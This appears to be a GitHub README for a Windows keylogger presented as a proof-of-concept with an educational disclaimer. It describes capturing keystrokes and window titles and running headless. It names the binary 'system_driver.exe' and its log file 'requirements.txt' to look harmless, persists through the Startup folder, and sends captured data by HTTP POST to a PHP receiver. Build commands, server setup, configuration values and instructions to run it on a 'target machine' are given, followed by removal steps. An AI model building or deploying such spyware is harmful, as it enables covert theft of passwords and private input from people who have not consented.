

# 🪟 Windows Keystroke Logger & Remote Exfiltration Tool

> A Proof-of-Concept (PoC) security research and endpoint telemetry agent for Windows operating systems, demonstrating user-space keystroke tracking, active window logging, persistence via the Windows Startup directory, and covert HTTP data exfiltration using the WinINet API.

[](https://www.microsoft.com/windows)
[-00599C?style=for-the-badge&logo=c&logoColor=white)](https://learn.microsoft.com/en-us/windows/win32/)
[](https://visualstudio.microsoft.com/)
[](https://learn.microsoft.com/en-us/windows/win32/wininet/about-wininet)
[](https://en.wikipedia.org/wiki/Penetration_test)

---

> [!CAUTION]
> **Educational & Research Disclaimer**:
> This software is developed strictly for educational analysis, authorized red teaming, and threat simulation exercises. Unauthorized deployment or monitoring on systems without explicit consent is illegal under applicable cybercrime legislation.

---

## 🏗️ Technical Architecture



---

## ✨ Features & Capabilities

- **🪟 Active Window Tracking**: Queries `GetForegroundWindow` and `GetWindowTextA` to maintain context for captured keystrokes, recording application titles and browser tabs.
- **⌨️ Asynchronous Keystroke Capture**: Monitors virtual-key codes using the native Win32 `GetAsyncKeyState` API, mapping input to alphanumeric characters, special keys, and control sequences.
- **🛡️ Native Subsystem (Silent Execution)**: Configured with `/SUBSYSTEM:WINDOWS` linker flags to run completely headless without spawning a command prompt or console window.
- **🔄 Startup Persistence**: Copies the binary into the user's `Documents` directory and creates an autostart link inside the user's Startup folder (`%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`), ensuring persistence across reboots without requiring elevated administrative privileges.
- **🌐 Covert Exfiltration via WinINet**: Leverages Windows native `wininet.dll` (`InternetOpenA`, `InternetConnectA`, `HttpSendRequestA`) to dispatch telemetry over standard HTTP POST requests, avoiding third-party dependency footprints.
- **📥 Centralized Ingestion Server**: Simple PHP receiver script (`receiver.php`) that logs timestamps, client IP addresses, and payload content into a structured archive.

---

## 📁 Repository Structure

```
keylogger-windows/
├── main.c           # Core Win32 C implementation (keylogger, persistence, WinINet HTTP POST)
├── receiver.php     # Server-side endpoint capturing exfiltrated payloads
└── README.md        # Technical documentation and build instructions
```

---

## 🛠️ Build & Compilation

### Requirements
- **Microsoft Visual Studio** with the C/C++ Desktop Development workload (MSVC `cl.exe`), OR
- **MinGW-w64** GCC compiler for Windows.

### Option 1: Microsoft Visual C++ (MSVC)
Open the **x64 Native Tools Command Prompt for VS** and run:

```cmd
cl main.c /Fe:system_driver.exe /O2 user32.lib kernel32.lib wininet.lib advapi32.lib /link /SUBSYSTEM:WINDOWS
```

> **Note**: The `/SUBSYSTEM:WINDOWS` flag ensures the executable runs silently without a console window.

### Option 2: MinGW-w64 (GCC)

```bash
gcc -O2 main.c -o system_driver.exe -luser32 -lkernel32 -lwininet -ladvapi32 -mwindows
```

---

## 🚀 Setup & Deployment

### 1. Server Configuration
1. Deploy `receiver.php` to your web server (e.g. `http://your-server.com/receiver.php`).
2. Verify that write permissions are granted so PHP can append entries to `logs.txt`:
   ```bash
   touch logs.txt
   chmod 664 logs.txt
   ```

### 2. Client Configuration
Edit `main.c` before compiling:

```c
#define SERVER "your-server.com"    // Host domain or IP address (without http://)
#define SCRIPT_PATH "/receiver.php" // Path to receiver script on the server
#define UPLOAD_INTERVAL 60          // Telemetry interval in seconds
```

### 3. Execution
Run `system_driver.exe` on the target machine. On launch, it will:
1. Copy itself into `C:\Users\<User>\Documents\system_driver.exe`.
2. Add a persistence shortcut in the Startup folder.
3. Begin capturing keystrokes and buffering them in `requirements.txt`.
4. Flush and transmit the buffer every 60 seconds to `receiver.php`.

---

## 🧹 Detection & Removal (Remediation)

To cleanly remove the agent and all created artifacts from a machine:

```powershell
# 1. Terminate running process
Stop-Process -Name "system_driver" -Force -ErrorAction SilentlyContinue

# 2. Delete startup persistence shortcut
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\system_driver.lnk" -Force -ErrorAction SilentlyContinue

# 3. Remove executable and local log file
Remove-Item "$env:USERPROFILE\Documents\system_driver.exe" -Force -ErrorAction SilentlyContinue
Remove-Item "$env:USERPROFILE\Documents\requirements.txt" -Force -ErrorAction SilentlyContinue
```

---

## 📄 License

Distributed under the MIT License for educational and cybersecurity evaluation purposes.
